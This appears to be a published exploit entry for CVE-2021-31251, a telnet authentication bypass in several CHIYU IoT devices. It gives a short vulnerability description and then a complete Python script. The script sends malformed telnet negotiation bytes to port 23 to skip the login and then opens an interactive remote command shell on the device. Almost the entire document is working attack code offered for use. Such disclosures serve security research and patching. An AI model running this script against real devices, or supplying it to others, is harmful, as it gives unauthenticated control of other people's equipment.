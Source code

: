 EXP
---

    # Exploit Title: CHIYU IoT Devices - 'Telnet' Authentication Bypass
    # Date: 01/06/2021
    # Exploit Author: sirpedrotavares
    # Vendor Homepage: https://www.chiyu-tech.com/msg/msg88.html
    # Software Link: https://www.chiyu-tech.com/category-hardware.html
    # Version:  BF-430, BF-431, BF-450M, and SEMAC   - all firmware versions < June 2021
    # Tested on:  BF-430, BF-431, BF-450M, and SEMAC
    # CVE: CVE-2021-31251
    # Publication: https://seguranca-informatica.pt/dancing-in-the-iot-chiyu-devices-vulnerable-to-remote-attacks

    """
    Description: Several IoT devices from the CHIYU Technology firm are
    vulnerable to a flaw that permits bypassing the telnet authentication
    process due to an overflow during the negotiation of the telnet protocol.
    Telnet authentication is bypassed by supplying a specially malformed
    request, and an attacker may force the remote telnet server to believe that
    the user has already authenticated. Several models are vulnerable,
    including BF-430, BF-431, BF-450M, and SEMAC with the most recent firmware
    versions.
    CVE ID: CVE-2021-31251
    CVSS: Critical - CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    URL: https://gitbook.seguranca-informatica.pt/cve-and-exploits/cves/chiyu-iot-devices#cve-2021-31251
    """

    #!/usr/bin/env python3

    # usage: python3 exploit.py IP

    import socket
    import time
    import sys

    HOST = sys.argv[1]
    PORT = 23

    socket.setdefaulttimeout(10)
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    try:
        connect = s.connect_ex((HOST, PORT))
        try:
            print("[+] Try to connect...\n")
            time.sleep(1)
            s.send(b"\xff\xfb\x01\xff\xfb\x03\xff\xfd\x18")
            s.recv(1024).strip()
            s.send(b"\xff\xfb\x01\xff\xfb\x03\xff\xfd\x18")
            s.recv(1024).strip()
            s.send(b"\xff\xfb\x01\xff\xfb\x03\xff\xfd\x18")
            result = s.recv(1024).strip()
            if result != b'\xff\xfe\x01':
                s.send(b"\x09")
                result = s.recv(1024).strip()

            if connect == 0 and "sername" not in str(result):
                if b"\xff\xfe\x01" == result:
                    print("Connected! ;)\ntype: \"help\"\n\n")
                    while 1:
                            cmd = input("(CHIYU pwnShell:) $ ")
                            body = cmd+"\n"
                            s.send(body.encode('utf-8', 'ignore'))
                            result = s.recv(1024).decode('utf8', 'ignore')

                            if not len(result):
                                print("[+] CHIYU device not available, try
    again ... (terminating)")
                                s.close()
                                break
                            print(result.strip('CMD>'))
                            b = "\n"
                            s.send(b.encode('utf-8', 'ignore'))
                            result = s.recv(1024).decode()
                            print(result.strip('CMD>'))
        except KeyboardInterrupt:
            print("\n[+] ^C Received, closing connection")
            s.close()
        except EOFError:
            print("\n[+] ^D Received, closing connection")
            s.close()

    except socket.error:
        print("[+] Unable to connect to CHIYU device.")